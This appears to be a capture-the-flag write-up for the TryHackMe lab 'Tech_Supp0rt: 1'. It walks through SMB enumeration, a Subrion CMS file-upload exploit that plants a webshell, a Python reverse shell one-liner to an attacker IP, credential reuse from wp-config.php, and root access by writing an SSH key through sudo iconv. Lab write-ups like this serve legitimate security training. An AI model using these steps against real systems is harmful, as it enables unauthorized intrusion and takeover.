










# Tech_Supp0rt: 1

## Description

Room link: https://tryhackme.com/room/techsupp0rt1

Created by: [Vikaran](https://tryhackme.com/p/Vikaran)

Hack into the scammer's under-development website to foil their plans.

Hack into the machine and investigate the target.

Please allow about 5 minutes for the machine to fully boot!

**Note:** The theme and security warnings encountered in this room are part of the challenge.

## Writer

First of all, thanks to the creator of this room for giving us the chanse to practice our skills.

**Note:** The passwords and the flag are redacted, so you can get a hand-on experience completing this room. BTW, where ever you see `$IP`, it is refering to machine's IP.

Happy H4CK1N9! : )

## Initial Scan

Let's get to work. As always, starting with a quick full port `Nmap` scan:

~~~
└─# nmap $IP -sS -sV -p- --min-rate 5000 -Pn -n                  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-20 07:11 EDT
Nmap scan report for 10.10.35.110
Host is up (0.14s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

The scan revealed four open ports:

* 22 SSH
* 80 HTTP
* 139 SMB
* 445 SMB

Let's run a deeper scan on the discovered ports using Nmap's aggressive mode:

~~~
└─# nmap -A $IP -p22,80,139,445 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-20 07:14 EDT
Nmap scan report for 10.10.35.110
Host is up (0.10s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-04-20T11:14:58
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-04-20T16:45:00+05:30
|_clock-skew: mean: -1h49m59s, deviation: 3h10m29s, median: -1s
~~~

## SMB (port 139/445)

Let's start with enumerating the SMB shares. First we should list the shares, which can be done by running the following command:

~~~
└─$ smbclient -L //$IP/   
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	websvr          Disk      
	IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP
~~~

There is a share named `websvr`, which we have access to without creds. Let's see what we can find in this share:

~~~
└─$ smbclient //$IP/websvr
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021
~~~

It contains a txt file named `enter.txt`. Let's download and read it:

~~~
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit

└─$ cat enter.txt 
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPE[REDACTED]i24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
~~~

So from this file, we can obtain some info about what the scammers are doing. Let's go through the important ones.

First thing is that there is a broken directory named `/subrion`. FYI, "Subrion" is an open source CMS (content management system).

The other one is the credentials that we got for this CMS. The password looks encoded and the note in front of it, suggests the same. We can use [CyberChef](https://gchq.github.io/CyberChef/) to decode it. It can be decoded using the following pattern:

*From Base58 > From Base32 > From Base64*

So now we have creds, which might come in handy later if we face the "Subrion" CMS:

* Username: `admin`
* Password: `[REDACTED]`

## HTTP (port 80)

We got some good stuff from the SMB shares, so let's move on to the website running on port 80. The main page, is the default page of "Apache2":

Let's run `gobuster` (or whatever you prefer) on it to find pages to work with:

~~~
└─$ gobuster dir -u http://$IP:80/ -w /usr/share/dirb/wordlists/common.txt -x js,php,html,txt,zip,old,sql

[...]

/index.html       (Status: 200) [Size: 11321]
/phpinfo.php      (Status: 200) [Size: 94930]
/server-status    (Status: 403) [Size: 276]  
/test             (Status: 301) [Size: 309] [--> http://10.10.35.110/test/]
/wordpress        (Status: 301) [Size: 314] [--> http://10.10.35.110/wordpress/]
~~~

We found a few pages. Let's go through them one by one to see what we can get. `index.html` is the page that we see as the main page. `/phpinfo.php` gives us information about the PHP installed on the server:

By navigating to `/test`, we can see that it's the page that the scammers want to use to scare their victims:

Let's check `/wordpress`. As the name suggests. `wordpress` is installed on this directory:

Before we go further and start exploring the wordpress, let's remind ourselves about what we read about the wordpress in the SMB share note:

*"Edit wordpress website"*

So it's probabely not complete and we might not be able to gain much by exploring it.

We looked through the pages that we found via `gobuster`, BUT we also have another page to explore: `/subrion`.

Browsing this page, redirects us to a non-existing location which is `http://10.0.2.15/subrion/subrion/ `, so as the SMB share note said, it is broken. Here's the headers:

~~~
└─$ curl -s "http://$IP:80/subrion/" -i
HTTP/1.1 302 Found
Date: Thu, 21 Apr 2022 09:09:15 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: INTELLI_06c8042c3d=s7tn9r3t0rmh7e60t2l6b55jlp; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: INTELLI_06c8042c3d=s7tn9r3t0rmh7e60t2l6b55jlp; expires=Thu, 21-Apr-2022 09:39:15 GMT; Max-Age=1800; path=/
Location: http://10.0.2.15/subrion/subrion/       <---------
Content-Length: 0
Content-Type: text/html; charset=UTF-8
~~~

Here's the browser's output:

I started playing around with it a bit and to be honest, I found it by luck. When I navigated to `http://<MACHINE IP>/subrion/robots.txt` I found a few pages:

~~~
└─$ curl -s "http://$IP:80/subrion/robots.txt"
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
~~~
 
After we navigate to `/subrion/panel/`, we discover a login page for "Subrion CMS":

After trying the creds that we found in the SMB share, we get through. So we can confirm that the creds are valid and we face the "Dashboard":

We also have the CMS version now, which is `Subrion CMS v4.2.1`:

## Exploit

At this point, we have creds and we have the version of the CMS. Let's check if we can find any exploits for it. We can use `searchsploit` or google:

~~~
└─$ searchsploit subrion CMS 4.2.1
----------------------------------------------------------------- -----------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- -----------------------
Subrion CMS 4.2.1 - 'avatar[path]' XSS                           | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                        | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add Amin) | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                         | php/webapps/45150.txt
----------------------------------------------------------------- -----------------------
Shellcodes: No Results
~~~

So there are a few ones, but the "Arbitrary File Upload" one might be the useful one in our case. The exploit has an EDB-ID of `49876` and you can get it [here](https://www.exploit-db.com/exploits/49876).

This exploit uses `CVE-2018-19422` and it's very useful, because it uploads a webshell and makes our job easier.

### RCE

After checking the exploit code, we can run it and see if it works:

~~~
└─$ python3 AFU_RCE.py -u http://$IP:80/subrion/panel/ -l 'admin' -p '[REDACTED]'
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.35.110:80/subrion/panel/
[+] Success!
[+] Got CSRF token: blhtitZ8kL7Q1Hkej2gEN75FeUJ8apOYapAHpDL5
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: yqyoxhatvybssyh

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.35.110:80/subrion/panel/uploads/yqyoxhatvybssyh.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

Nice! We can execute commands on the target machine now.

## Reverse Shell

Now that we have remote code execution, we can work on gaining a reverse shell. You can either upload a reverse shell and execute that or just use a reverse shell payload.

I'm using a python reverse shell payload that you can find [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat). Here's the payload. Just add your IP to it, and it's ready to use:

~~~sh
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR THM IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
~~~

Start a listener (`rlwrap nc -lvnp 4444`) and execute the payload above and you should receive a reverse shell on your listener:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.35.110] 56552
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

We can also spawn a TTY shell using a python one-liner:

~~~
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@TechSupport:/var/www/html/subrion/uploads$
~~~

## www-data -> scamsite (lateral move)

Now we have a shell as `www-data`. Let's check for the users with console:

~~~sh
www-data@TechSupport:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
~~~

There is a user named `scamsite`. Let's check this user's home directory:

~~~sh
www-data@TechSupport:/$ ls -la /home/scamsite
total 32
drwxr-xr-x 4 scamsite scamsite 4096 May 29  2021 .
drwxr-xr-x 3 root     root     4096 May 28  2021 ..
-rw------- 1 scamsite scamsite  151 May 28  2021 .bash_history
-rw-r--r-- 1 scamsite scamsite  220 May 28  2021 .bash_logout
-rw-r--r-- 1 scamsite scamsite 3771 May 28  2021 .bashrc
drwx------ 2 scamsite scamsite 4096 May 28  2021 .cache
-rw-r--r-- 1 scamsite scamsite  655 May 28  2021 .profile
-rw-r--r-- 1 scamsite scamsite    0 May 28  2021 .sudo_as_admin_successful
drwxr-xr-x 2 root     root     4096 May 29  2021 websvr
~~~

There is nothing useful in the home directory. `websvr` is the share we found early on the challenge, so there's nothing interesting in that.

I started looking through the important files on the machine and found the database creds used by wordpress in `/var/www/html/wordpress/wp-config.php`:

~~~
www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php | grep DB
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', '[REDACTED]' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
~~~

Just for the sake of trying, I tested to see if the password was re-used by user `scamsite` and it fortunately was:

~~~
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: [REDACTED]
scamsite@TechSupport:/var/www/html/wordpress$ id
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
~~~

### Connecting to SSH

Now that we have user `scamsite`'s password, we can use it to connect to the target machine via SSH:

~~~
└─$ ssh scamsite@$IP              

[...]

scamsite@TechSupport:~$ id
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
~~~

## Going root

It's time to work on gaining the flag. Let's run `sudo -l` to check our permissions:

~~~
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
~~~

As you can see, we can run `iconv` as `root` with sudo and no password. Checking [GTFOBins](https://gtfobins.github.io/), we find out that we can use this permission to read and write files and combined with `sudo`, we can do the same with the files that don't have access to:

**Note:** We can use this permission to read the flag in `/root` now, but where is the fun in that when we can gain root access. : )

### Exploit

Let me explain how to use this permission. We can easily add our public SSH key to `/root/.ssh/authorized_key` and then use our private key to connect to the machine as root.

**If you have an SSH key, skip to the next paragraph** and if you don't, you can create one using `ssh-keygen`. Just use a password that you can remember later. After you're done, the file with `.pub` extention is your public key and the other one is your private key.

Let's add our public key then. We can do it, by running the following command (Add your public key where it says it):

~~~bash
scamsite@TechSupport:~$ echo "[PUT YOUR PUBLIC KEY HERE]" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys
~~~

Now let's use our private key to connect to the machine as root:

~~~
└─$ ssh -i ~/.ssh/id_rsa root@$IP   

[...]

root@TechSupport:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

B00M! We are root! : )

## Flag

Now we can go ahead and read the flag in `/root/root.txt` with pride:

~~~
root@TechSupport:~# pwd
/root
root@TechSupport:~# ls
root.txt
root@TechSupport:~# cat root.txt 
851b8[REDACTED]2790b  -
~~~

Flag: `851b8[REDACTED]2790b`

## D0N3! ; )

Thanks again to the creator of this room for putting in the time.

What we learn from this room is that, just don't scam people. : )

Hope you had fun and learned something! : )

Have a g00d 0ne! : )
